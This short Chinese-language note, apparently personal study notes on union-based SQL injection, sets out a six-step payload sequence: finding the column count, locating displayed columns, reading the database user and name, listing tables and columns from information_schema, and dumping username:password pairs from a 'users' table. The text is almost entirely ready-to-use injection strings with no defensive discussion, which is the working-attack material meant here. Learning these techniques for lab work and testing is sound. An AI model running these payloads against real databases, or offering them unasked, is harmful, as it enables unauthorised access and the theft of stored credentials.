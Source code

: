 <!-- 
title: 04-Sql注入
sort: 
--> 

## 联合查询

1. 判断列数

   `1' order by 3 --+ `

2. 判断值对应的列数

   `0' union select 1,2,3 --+ `

3. 查询用户及数据库信息

   ` 0' union select 1,user(),database() --+`

4. 查询表名

   `0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`

5. 查询列名

   `0' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+`

6. 查询信息

   `0' union select 1,group_concat(username,0x3a,password),3 from users --+`

